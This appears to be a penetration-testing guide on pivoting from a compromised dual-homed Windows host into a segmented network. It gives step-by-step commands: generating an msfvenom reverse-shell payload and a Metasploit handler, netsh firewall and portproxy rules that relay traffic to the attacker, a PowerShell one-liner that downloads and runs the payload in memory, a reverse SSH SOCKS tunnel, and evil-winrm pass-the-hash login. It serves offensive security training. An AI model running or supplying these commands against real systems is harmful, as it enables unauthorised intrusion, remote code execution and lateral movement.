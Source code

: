 ## Reverse SSH Tunnel Method
As a penetration tester, you are expected to know how to pivot between hosts even when they reside on segmented networks. Segmented hosts are typically in-scope and often engagement targets. The following example examines one method to accomplish segmented network pivoting via a dual-homed server compromised by the attacker without writing any third-party tools to disk.
***
### Simplified Segmented Network
![Segmented Network Example](segmented-network-live-off-the-land-example.png)

### Simplified Segmented Network Details
The following are the relevant example details:
```plaintext
Attacker IP:
	192.168.75.85

Dual-Homed Compromised Host (Windows x64) IPs:
	192.168.200.200
	10.10.1.200

Target Internal Client (Windows x64) IP:
	10.10.1.50

Intended Pivot:
	192.168.75.85 -> 192.168.200.200 -> 10.10.1.50

Additional Route Details:
	192.168.75.85 -> 10.10.1.50 = No Route To Host
	10.10.1.50 -> 192.168.75.85 = No Route To Host
```

### Assumptions
1. Dual-Homed Compromised Host is already compromised by the attacker
2. The attacker has escalated their privileges to Administrator, SYSTEM, or equivalent
3. Interaction via RDP, WinRM, webshell, xp_cmdshell, etc., with Target Internal Client is already directly possible via session (RDP or otherwise) from Dual-Homed Compromised Host.
4. The unaltered MSFVenom payload is sufficient to bypass defenses such as AMSI and Defender. During real engagements default payloads like this should not be used. For the purposes of simplifying this example, we assume the payload will execute properly.
---
### Step-By-Step Instructions For Pivot
1. (Kali) Make payload and place in apache default webroot. Note that the IP address in the command belongs to the Dual-Homed Compromised Host. In a later step we configure the Dual-Homed Compromised Host to forward the shell traffic to the attacker's Kali
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.200 LPORT=8669 -f psh -o /var/www/html/win-x64-8669.txt;
```
2. (Kali) Start apache2 to host payload
```zsh
sudo service apache2 start;
```
3. (Kali) Start MSFConsole's multi/handler to receive callback shell
```zsh
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 8669; set ExitOnSession false; exploit -j";
```
4. (Compromised Host) Open up TCP port 4422. Used to reach the attacker on port 80 to download payload
```powershell
netsh advfirewall firewall add rule name="TCP Port 4422 Allow In" dir=in action=allow protocol=TCP localport=4422;
```
5. (Compromised Host) Redirect TCP traffic received on 4422 (listening on internal 10.10.1.200) to attacker at 192.168.75.85 port 80
```powershell
netsh interface portproxy add v4tov4 listenport=4422 listenaddress=10.10.1.200 connectport=80 connectaddress=192.168.75.85;
```
6. (Compromised Host) Open up TCP port 8669. Used to reach the attacker on port 8669 for callback shell
```powershell
netsh advfirewall firewall add rule name="TCP Port 8669 Allow In" dir=in action=allow protocol=TCP localport=8669;
```
7. (Compromised Host) Redirect TCP traffic received on 8669 (listening on internal 10.10.1.200) to attacker at 192.168.75.85 port 8669
```powershell
netsh interface portproxy add v4tov4 listenport=8669 listenaddress=10.10.1.200 connectport=8669 connectaddress=192.168.75.85;
```
8. Using exploit, RDP / WinRM / other connection from compromised host to target internal host, download "win-x64-8669.txt" from attacker. Note that the IP address used is the compromised host and the port (4422) is the one redirected to the attacker at 192.168.75.85 port 80
```powershell
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadString('http://10.10.1.200:4422/win-x64-8669.txt') | IEX"
```
9. Receive remote shell in MSFConsole
***
***
### Additional Pivoting Option via Reverse SSH Tunnel
In some cases, you will want to have a socket opened on the Compromised Dual-Homed Host for your tools, such as CrackMapExec, Evil-WinRM, SQLMap, etc., to tunnel through. Doing so allows your local tools to work with proxychains to reach and target otherwise unreachable hosts on segmented networks. To make this socket, we can use the SSH client on the compromised host to SSH into our Kali machine and open a socket locally (on Kali) that we can pivot through.

Before continuing, first ensure you have proxychains4 setup:
```zsh
sudo apt update
sudo apt install proxychains4
```

#### Step-By-Step Instructions For SSH Reverse Tunnel
1. Create a new Kali user and ensure they are allowed to SSH into your instance. (Alternatively, use the provided script named `generate-ssh-user.sh` to create, and delete when finished with the `--clean` flag, temporary ssh users.)
2. Using PowerShell on the Compromised Dual-Homed Host, SSH into your Kali machine using the following command (only use the "-i" option if you are using an identity file for SSH authentication to your Kali machine and have placed this file on the Compromised Host):
```zsh
ssh -R 1080 <generated_user>@<kali_IP_address> -i <file_path_to_private_identity_file_if_using_one>
```
3. Ensure your `/etc/proxychains4.conf` has `socks5 127.0.0.1 1080` under `[ProxyList]`. An example of a working `proxychains4.conf` file, with all comments removed, is shown below:
```plaintext
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```
4. Using proxychains, you can now reach any host the Compromised Host can reach as long as the SSH session to your Kali machine remains intact. The following is an example command you could use to obtain a remote shell directly from Kali if WinRM is enabled on the Target Internal Client (10.10.1.50) and you have the local Administrator password hash, which is `ddce269a1e3d054cae349621c198dd52` in this example. (Note that the `-q` flag suppresses proxychains output but is not required)
```zsh
proxychains -q evil-winrm -i 10.10.1.50 -u Administrator -H ddce269a1e3d054cae349621c198dd52
```
